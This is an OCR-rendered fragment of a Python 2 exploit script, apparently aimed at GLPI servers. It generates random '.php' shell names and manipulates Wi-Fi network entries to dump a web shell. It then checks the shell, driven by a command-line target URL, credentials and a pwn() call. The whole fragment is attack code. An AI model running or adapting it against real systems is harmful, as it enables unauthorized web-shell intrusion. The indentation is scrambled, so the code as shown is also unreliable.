         #create timestamp
        now = datetime.now()
        datemod = now.strftime("%Y-%m-%d %H:%M:%S")

            #create comment payload

            tick=1
        while True:
            #create random shell name
                letters = string.ascii_letters
            shellname = ''.join(random.choice(letters) for i in range(8))+".php"

            #create padding for ESSID
            padding = ''
                for i in range(1,int(tick)+1):
                    padding+=str(i)

            self.wipe_networks(padding, datemod)
            self.create_network(datemod)
                self.edit_network(padding, datemod)
                self.create_dump(shellname)
                self.shell_check(shellname)
            print "\n"
                raw_input("Press any key to continue with the next iteration...")
                tick+=1

            return

    if __name__ == '__main__':

        parser = argparse.ArgumentParser()
        parser.add_argument("--url", help="Target URL", required=True)
        parser.add_argument("--user", help="Username", required=True)
        parser.add_argument("--password", help="Password", required=True)
        parser.add_argument("--platform", help="Win/Nix", required=True)

        args = parser.parse_args()

        g = GlpiBrowser(args.url, user=args.user, password=args.password, platform=args.platform)

        g.pwn()